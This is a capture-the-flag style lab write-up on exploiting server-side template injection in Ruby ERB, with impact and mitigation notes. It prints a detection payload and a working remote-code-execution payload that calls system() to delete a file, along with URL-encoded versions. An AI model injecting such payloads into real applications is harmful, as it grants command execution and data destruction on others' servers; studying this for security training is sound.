


# Exploiting Basic Server-Side Template Injection (SSTI) in ERB

## Lab Information

- **Challenge Name:** Basic Server-Side Template Injection
- **Classification:** Server-Side Template Injection (SSTI)
- **Skill Level:** Practitioner
- **Status:** Resolved

## Objective

Leverage a Server-Side Template Injection (SSTI) vulnerability arising from insecure ERB template generation. The goal is to trigger arbitrary command execution to remove the file located at:

```text
/home/carlos/morale.txt
```

---

## Vulnerability Analysis

User-provided values are directly embedded inside an Embedded Ruby (ERB) template before rendering. Since this input is parsed by the server-side template engine, it allows the evaluation of arbitrary Ruby expressions. This results in remote code execution (RCE) via manipulated template tags.

---

## Exploitation Steps

### 1. Locating the Injection Point

The application handles a `message` query parameter to display dynamic notices on the interface.

Example:

```text
/?message=Unfortunately this product is out of stock
```

---

### 2. Validating Template Evaluation

To test for SSTI, we inject a basic mathematical expression into the parameter:

```erb
<%= 7*7 %>
```

URL-encoded version:

```text
%3C%25%3D+7*7+%25%3E
```

The server processes this query and returns the evaluated result:

```text
49
```

This confirms that the template engine is executing the injected user input.

---

### 3. Achieving Remote Code Execution

Using Ruby's native `system()` helper, we can trigger operating system command execution on the host.

Payload:

```erb
<%= system("rm /home/carlos/morale.txt") %>
```

URL-encoded version:

```text
%3C%25%3D+system(%22rm+/home/carlos/morale.txt%22)+%25%3E
```

The payload is supplied directly through the vulnerable `message` query parameter.

---

## Payload Used

```erb
<%= system("rm /home/carlos/morale.txt") %>
```

---

## Result

The application executed the injected system command, removing the target file:

```text
/home/carlos/morale.txt
```

The challenge has been successfully resolved.

---

## Screenshots

### SSTI Confirmation (7 × 7 = 49)



### Lab Solved



---

## Impact Assessment

Server-Side Template Injection allows attackers to:

* Execute arbitrary server-side scripting instructions.
* Disclose sensitive system files.
* Retrieve server environment parameters.
* Run operating system shell commands.
* Establish full remote code execution (RCE).
* Compromise the host system completely.

---

## Mitigation and Prevention

* Avoid rendering raw user input directly inside template structures.
* Utilize secure, parameter-based template rendering functions.
* Disable dangerous execution wrappers in the template context where possible.
* Apply strict validation and cleaning on user inputs.
* Run templates inside isolated sandbox environments.
* Configure least-privilege system permissions for the web application process.

---

## Summary Takeaway

Server-Side Template Injection represents a direct route to full Remote Code Execution. User data should never be evaluated directly by a template engine without robust sanitization and input filtering.
